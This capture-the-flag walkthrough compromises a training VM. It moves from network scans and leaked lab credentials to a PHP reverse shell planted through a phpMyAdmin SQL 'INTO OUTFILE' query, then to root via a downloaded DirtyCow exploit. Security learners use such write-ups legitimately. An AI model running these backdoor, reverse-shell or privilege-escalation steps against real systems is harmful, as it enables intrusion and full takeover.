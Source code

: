 # Writeup2 - DirtyC0w
# Recon
## Scans
### Scan network to detect the VM IP

To investigate the VM we will first need to find its IP.    

As we are connected to the same network interface (en0) as the VM, 
we can scan the network for available hosts using nmap.

```
$> nmap -sn -PE -v INTERFACE_IP/24
...
Nmap scan report for 192.168.1.239 [host down]
Nmap scan report for 192.168.1.240 [host down]
Nmap scan report for BornToSecHackMe (192.168.1.241)
Host is up (0.0029s latency).
Nmap scan report for Ordi-De-Moi (192.168.1.242)
Host is up (0.0028s latency).
Nmap scan report for 192.168.1.243 [host down]
Nmap scan report for 192.168.1.244 [host down]
Nmap scan report for 192.168.1.245 [host down]
...
```

In our case, the VM DNS name is `BornToSecHackMe` and its IP is: `192.168.1.241`

---------------

### Service discovery
Now that we have the machine's IP, we can use nmap another time to scan services that
might run on it
```
$> sudo nmap -O -sV BornToSecHackMe
...
Not shown: 994 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/ssl  Apache httpd (SSL-only mode)
993/tcp open  ssl/imap Dovecot imapd
MAC Address: 08:00:27:37:26:C5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

We have successfuly found a collection of services that may be used as entrypoints.

---------------

### Scanning the website 

To make the first recon of the website we chose to use `nikto`.

```
$> nikto -host https://BornToSecHackMe
- Nikto v2.1.6
...
+ Server: Apache/2.2.22 (Ubuntu)
...
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.20
...
+ OSVDB-3092: /forum/: This might be interesting...
...
+ OSVDB-3093: /webmail/src/read_body.php: SquirrelMail found
...
+ /phpmyadmin/: phpMyAdmin directory found
...
```

We have found an Apache server with a php server that serves phpmyadmin, a forum and a webmail application.



# Penetration


## Web site
We access the webserver with a web browser at this [URL:](https://BornToSecHackMe/) to read the webpage.   

---------------

### MyLittleForum (/forum)

Here we can notify some things:
- This forum is powered by MyLittleForum
- There are some posts
- There is a user list

One post posted by the user lmezard contains connection logs. In these, we can find a password typed by error in the username field :
```
!q\]Ej?*5K5cy*AJ
```

We then tried to login on the forum as lmezard with the precedent password and it worked successfully, Victory !

Here we can get her email `laurie@borntosec.net` in her profile section.

---------------

### SquirelMail (/webmail/src/index.php)

Now that we have got an email and a password from an user of the forum, we tried to login with those on the webmail page and again it worked like a charm ! 

We then found an interesting mail concerning database access that gave us those credentials :
```
user: root 
password: Fg-'kKXBj87E:aJ$
```
We can then try to connect to phpmyadmin using those.

---------------

### PhpMyAdmin (/phpmyadmin)

On the phpmyadmin page we are now logged in as root !

We now have the possiblity to send SQL requests via the webpage, so we can try to write a file into the webserver's machine, but we need to find a place to write it with our current permissions. Luckily, MyLittleForum exposes a read and write access directory at `/forum/templates_c`, we can then suppose that the forum will be installed in `/var/www/` and try to write the file to `/var/www/forum/templates_c/`.

We used this php script to create a backdoor that will connect back to our listener when executed :
```php
<?php
    $sock=fsockopen("OUR_LISTENER_IP", OUR_LISTENER_PORT);
    $proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

We then injected it using this script on the phpmyadmin sql console:
```sql
SELECT "<?php $sock=fsockopen('OUR_LISTENER_IP',OUR_LISTENER_PORT);$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>"
into outfile "/var/www/forum/templates_c/backdoor.php";
```


We started a listener using netcat, then searched the page [https://BornToSecHackMe/forum/templates_c/backdoor.php](https://BornToSecHackMe/forum/templates_c/backdoor.php) :
```
$> nc -lk OUR_LISTENER_IP OUR_LISTENER_PORT
www-data@BornToSecHackMe:/var/www/forum/templates_c $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@BornToSecHackMe:/var/www/forum/templates_c $
```


---------------

### Stabilize shell
```bash
$> python -c 'import pty; pty.spawn("/bin/bash")'
```

That's enought to run some command like su or sudo but if you want an even better shell add thoose commands:
```bash
$> export TERM=xterm
```
This will give us access to term commands such as clear.
`Ctrl + Z` Back in our own terminal then use
```bash
$> stty raw -echo; fg
```
And there you have it ! a beautiful stabilized shell !

# Dirty c0w

Download an exploit for the dirtycow vulnerability. From example you can use [this one](https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c)

```
laurie@BornToSecHackMe:~$ curl -fSSl https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -o dirty.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4815  100  4815    0     0  75340      0 --:--:-- --:--:-- --:--:--  106k
```

Then compile it and execute it:    

```
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty rootpass
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: rootpass
Complete line:
firefart:fiHwdmNrQMchY:0:0:pwned:/root:/bin/bash

mmap: b7fda000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'rootpass'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'rootpass'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$
```

In the file `/etc/passwd` we should now see a new user called `firefart` with a UID 0.
```
laurie@BornToSecHackMe:~$ cat /etc/passwd
firefart:fiHwdmNrQMchY:0:0:pwned:/root:/bin/bash
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
[...]
```

Connect as firefart :
```
$> laurie@BornToSecHackMe:~$ su firefart
Password:
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@BornToSecHackMe:/home/laurie#
```

You now have a root shell available !!